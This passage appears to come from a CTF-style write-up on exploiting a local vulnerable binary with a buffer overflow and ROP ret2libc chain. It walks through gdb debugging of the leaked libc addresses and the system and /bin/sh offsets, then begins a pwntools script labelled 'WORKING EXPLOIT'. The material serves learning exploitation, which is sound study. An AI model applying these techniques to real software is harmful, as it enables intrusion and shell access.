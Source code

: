 ```python
# prepare our second payload
second_payload = b''.join(second_payload)
p.sendline(second_payload)


p.interactive()

```

run the script, it opens a gdb window, input `c` 
and `telescope $rsp-32` (find our payload)
(Something is wrong)
We now want to know what is the layout of the stack before and after we put our payload
Run the script, it opens a gdb window, set 2 breakpoints: 1: `b do_stuff`, 
`disassemble do_stuff`, (grab address of ret instruction), and 2:`b *0x400770`
`c` for continue, and its gonna leak our ROPchain, `si`, `enter`, until we reach 
`0x400914 <__libc_csu_init+0064> ret` (puts), and see that rdi prints our setbuf function
`c` continue, back to our script and see that it leaked the address,
check leaked address `x 0x7fae1f688540` (0x7fae1f688540 was the address that was leaked),
it gives this `0x7fae1f688540 <setbuf>:        0x002000ba` (as we intended),
and with `vm` check that the libc address (2nd address in the script) is in libc.so.6 's path
`p system - 0x00007fae1f600000` (libc address above), check that it matches our system_offset



everything is good, `si`, `ni` (next instruction), go right before it calls scanf (that will receive our input), stop at `0x4006fe <do_stuff+0026>  call   0x400580 <__isoc99_scanf@plt>`
copy the rsi value `0x00007fff0399ef80`, `ni`, `telescope 0x00007fff0399ef80` (see that it has our payload), `telescope 0x00007fff0399ef80 -l 64` (to see more),
after the `pop rdi` instruction it should have our /bin/sh but it doesn't, so our /bin/sh is wrong
`grep /bin/sh` (look for /bin/sh), we get 
`0x7fae1f7b40fa - 0x7fae1f7b4101  →   "/bin/sh"`, 
`x/s 0x7fae1f7b40fa` (see that we get string /bin/sh), `0x7fae1f7b40fa: "/bin/sh"`
(find the /bin/sh offset) `p 0x7fae1f7b40fa - 0x00007fae1f600000` (p 0x00007fae1f600000 from libc address 12 above), we get `$2 = 0x1b40fa` (check that it matches our bin_sh_offset)

we still don't have a shell, so something is missing
run the script once again, it will open a gdb window, `disassemble do_stuff`, (grab address of ret instruction), `b *0x400770`, `c`, `c`, `si`, verify that we have our /bin/sh on the stack, `si`, `si`, verify that rdi is the actual address of libc, it still gives an error and it is segmentation faulting because the libc is using our system linker (the exploit works)

WORKING EXPLOIT
```python
#!/usr/bin/env python3

from pwn import *

p = process('./vuln') # start the vulnerable program process
 
# we reached EOF (End Of File) with our payload
gdb.attach(p) # debug our ROPchain

offset = 136 # we discovered that with 'pattern offset $rsp'
junk = b"A" * offset # creating our payload that will overflow

# where do we jumpt to since we cant execute it off the stack
# way to print out the address

"""
Plan to leak an address:
- use puts
- supply arguments to puts
- we will use ROP to do this:
	but will need the x64 calling conventions
- that means the register 'rdi' is the first argument
```